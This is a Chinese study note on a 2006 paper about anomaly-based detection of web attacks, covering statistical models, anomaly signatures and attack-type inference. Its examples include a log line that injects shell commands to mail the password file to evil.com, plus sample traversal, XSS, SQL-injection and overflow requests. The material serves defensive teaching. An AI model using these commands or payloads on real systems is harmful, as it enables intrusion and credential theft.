

# Using Generalization and Characterization Techniques in the Anomaly-based Detection of Web Attacks

<!-- TOC -->

- [背景知识和启发](#背景知识和启发)
    - [Web 应用](#web-应用)
    - [Web 安全的异常检测](#web-安全的异常检测)
    - [泛化和表征](#泛化和表征)
- [目标](#目标)
- [体系示意](#体系示意)
- [事件收集](#事件收集)
- [异常检测](#异常检测)
    - [属性长度](#属性长度)
    - [字符分布](#字符分布)
    - [结构推测](#结构推测)
    - [令牌查找](#令牌查找)
- [异常聚合](#异常聚合)
- [异常签名生成](#异常签名生成)
    - [属性长度](#属性长度-1)
    - [字符分布](#字符分布-1)
    - [结构推测](#结构推测-1)
    - [令牌查找](#令牌查找-1)
- [攻击类型推测](#攻击类型推测)
    - [攻击家族](#攻击家族)
        - [目录遍历](#目录遍历)
        - [跨站脚本攻击](#跨站脚本攻击)
        - [SQL 注入](#sql-注入)
        - [缓冲区溢出](#缓冲区溢出)
- [参考资料](#参考资料)

<!-- /TOC -->

## 背景知识和启发

### Web 应用

* 易于开发、部署和访问
* 安全漏洞严重
    * 对安全问题缺乏意识
    * 功能驱动的开发模式
    * 发布时间紧迫

### Web 安全的异常检测

```
128.111.41.15 "GET /cgi-bin/purchase?itemid=1a6f62e612&cc=mastercard" 200
128.111.43.24 "GET /cgi-bin/purchase?itemid=61d2b836c0&cc=visa" 200
128.111.48.69 "GET /cgi-bin/purchase?itemid=a625f27110&cc=mastercard" 200
131.175.5.35 "GET /cgi-bin/purchase?itemid=7e2877b177&cc=amex" 200
161.10.27.112 "GET /cgi-bin/purchase?itemid=80d2988812&cc=visa" 200
...
128.111.11.45 "GET /cgi-bin/purchase?itemid=109agfe111;ypcat%20passwd|mail%20wily@evil.com" 200
```

调用 `purchase` 应用的日志条目示例。最后一项代表应用遭受攻击。

* 优点
    * 适应 Web 应用的临时性
        * 有针对性开发
    * 确认未知的攻击
* 缺点
    * 容易产生误报
    * 难以描述导致异常的攻击（被检测到的攻击的本质）

### 泛化和表征

* 异常泛化
    * 将类似的异常组合在一起
    * 管理员分析每个组
        * 如果是误报：过滤
        * 如果是攻击实例：生成异常签名
* 攻击表征
    * Exploit 类型通常遵循特定的规则
    * 不是滥用检测签名
        * 仅应用于事件导致异常的部分
    * 有助于分析和修补漏洞

## 目标

* 检测系统可以部署在现有的 Web 系统
* 以无监督的方式检测未知的攻击

## 体系示意



## 事件收集

* Web服务器访问日志
* 事件的来源不明

## 异常检测

* 构建正常应用行为的模型并检测偏差
* 输入：GET 请求成功的 URL
* 学习阶段
    * 为每个应用程序参数构建正常行为的模型
    * 为属性设置一个动态检测阈值
* 检测阶段
    * 评估属性的观测值
    * 输出：异常分数，$$[0, 1]$$
        * $$0$$，高异常值
        * 单个模型的加权分数
    * 发出警报

### 属性长度

* **许多属性值的大小是固定的，或者变化范围很小**
* 属性长度的实际（未知）分布近似估计
* 切比雪夫不等式
    * 弱边界

### 字符分布

* **许多属性的字符分布值相似**
* 典型查询：人类可读; 分布下降缓慢
* ICD（理想字符分布）：256个字符的分类频率; 皮尔森测试
* 相对字符频率
    * 恶意查询
        * 字符分布下降剧烈，大量出现单个字符
        * 下降较小，随机字符

### 结构推测

* **许多属性值可以被构建为用正则语法生成的字符串**
* 构建概率文法
* 通过计算给定值的 NFA 的路径转移概率，得出异常分数值

### 令牌查找

* **许多属性的值取自不大的常量集合**
* 标志/指数
* 随机/枚举

## 异常聚合

* 根据特定于模型的操作相似度，对异常进行分组

## 异常签名生成

* 生成异常签名以便于将“类似”警报分组
* 签名集可以在运行时修改
* 相似性指标：依赖于模型
* 放松异常模型使用的参数产生异常签名

### 属性长度

* $$\mu$$ ，样本平均值
* $$\sigma^2$$ ，方差
* $$l_{\text{obsv}}$$ ，观测到的属性长度
* $$l_{\text{orig}}$$ ，异常属性长度
* $$d_{\text{attr}}$$，设定的距离
* $$\psi_{\text{attrlen}}(l_{\text{obsv}}, l_{\text{orig}})$$，计算相似度

$$\psi_{\text{attrlen}} \equiv \lvert \frac{\sigma^2}{(l_{\text{obsv}} - \mu)^2} - \frac{\sigma^2}{(l_{\text{orig}} - \mu)^2} \rvert < d_{\text{attr}}$$

### 字符分布

* $$m$$，主要字符的数量
* $$c_i$$，第 i 多的字符值
* $$f_i$$，相对频率
* $$C$$, 从模型中提取的 $$m$$ 个主要字符值和频率对组成的集合
    * $$C = \{ (c_1, f_1), (c_2, f_2), (c_m, f_m) \}$$
* $$C_{\text{obsv}}$$，从观测到的属性值中提取的主要字符值集合
* $$C_{\text{orig}}$$，来自异常值的对应集合
* 快速下降
    * $$\psi_{\text{cdist}} \equiv min \{ \lvert f_{\text{obsv}, i} - f_{\text{orig}, j} \rvert \} < d_{\text{cdist}}$$

* 下降缓慢
    * $$\psi_{\text{cdist}} \equiv max \{ \lvert f_{\text{obsv}, i} - f_{\text{orig}, j} \rvert \} < d_{\text{cdist}}$$

### 结构推测

* 提取前缀，直到得到第一个语法违规的字符
    * **同一个应用，共用一样的攻击前缀**
* 映射
    * "a"，所有小写字符
    * "A"，所有大写字符
    * "0"，所有数字
    * 其余字符不转换
* $$\psi_{\text{structure}} ( s_{\text{obsv}}, s_{\text{orig}} ) \equiv s_{\text{obsv}, i} - s_{\text{orig}, i}$$

### 令牌查找

* $$lex$$ ，词典相似函数
    * 海明距离
    * Levenshtein 距离
* $$\psi_{\text{token}} \equiv lex(l_{\text{obsv}}, l_{\text{orig}})$$

## 攻击类型推测

* 提取出异常可能代表的攻击特征
* 人类难以分析解读异常
* 观测到，同一类攻击造成的异常趋于一致
    * 利用这一特点向分析人员提供帮助
* 与误用检测相比
    * 劣势：类型推测仅适用于异常事件
    * 优势：类型推理可以更抽象（不太精确）

### 攻击家族

#### 目录遍历

```
GET /cgi-bin/show.cgi?sID=12345&file=../../../../maillog
```

* 未经授权访问 Web 服务器上的文件
    * 使用 `.` 和 `/`
* 激活启发式
    * 字符分布：控制字符集 $$C$$ ，主要关注 {`.`, `/`}
    * 结构推测：以 `.` or `/` 结尾的前缀
* 攻击推测
    * 利用正则表达式 `(/|\\.\\.)+` 扫描恶意属性的值
* 例子
    * Itemid = `cat ../../../../../etc/shadow`
    * 字符分布模型检测到 `.` 和 `/` 数量高
    * 结构推测模型检测到异常结构
    * 攻击推理匹配 `(/|\\.\\.)+` 并检测目录遍历

#### 跨站脚本攻击

```
GET /cgi-bin/show.cgi?sID=12345&file=<script>...</script>
```

* 在客户端机器上执行恶意代码
* 激活启发式
    *结构推测，字符分布，令牌查找
        * 插入 HTML 标签
        * 使用客户端脚本代码作为内容
* 攻击推测
    * 扫描 JavaScript 或 HTML 片段
        * `script`, `<` ,`>`

#### SQL 注入

```
GET /cgi-bin/show.cgi?sID=' or 1=1;--&file=access.log
```

* 修改SQL查询而未经授权
    * 将输入转义为查询参数
* 激活启发式
    * 属性结构
* 攻击推测
    * 扫描属性值中的 SQL 关键字（例如：`SELECT`，`INSERT`，`UPDATE`，`DELETE`，`'`，`--`）

#### 缓冲区溢出

```
GET /cgi-bin/show.cgi?sID=12345&file=%90%90%90%90%90...
```

* 发送大量的数据
    * 溢出缓冲区
    * 覆盖返回地址，数据，函数指针，敏感变量
* 严重偏离正常行为
* 激活启发式
    * 字符分布
    * 结构推断
    * 属性长度
* 攻击推测
    * 扫描属性字符串的二进制值（ASCII 值 > `0x80`）

## 参考资料

* Using Generalization and Characterization Techniques in the Anomaly-based Detection of Web Attacks, Robertson et al., 2006
* [http://dreamkorea.tistory.com/attachment/hk70.pdf](http://dreamkorea.tistory.com/attachment/hk70.pdf)
* CS 259D Session 12
